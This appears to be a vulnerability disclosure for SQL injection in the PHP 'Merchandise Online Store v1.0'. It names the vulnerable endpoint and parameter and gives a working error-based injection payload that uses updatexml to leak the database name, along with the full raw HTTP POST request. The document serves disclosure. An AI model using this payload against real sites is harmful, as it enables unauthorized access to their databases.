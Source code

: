 # Merchandise Online Store v1.0 by oretnom23 has SQL injection

vendors: https://www.sourcecodester.com/php/14887/merchandise-online-store-php-free-source-code.html

Vulnerability File: /vloggers_merch/classes/Master.php?f=delete_sub_category

Vulnerability location: /vloggers_merch/classes/Master.php?f=delete_sub_category, id

[+] Payload: id=2' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+ // Leak place ---> id

```sql
POST /vloggers_merch/classes/Master.php?f=delete_sub_category HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Referer: http://192.168.1.19/vloggers_merch/admin/?page=maintenance/sub_category
Content-Length: 65
Cookie: PHPSESSID=n23o4bgngdq5q3js6l0a0i6r6k
Connection: close

id=2' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+ // Leak place ---> id
```

![image](https://user-images.githubusercontent.com/54017627/166875953-d84b7581-2810-4c86-bf25-9fd4f4e113ed.png)
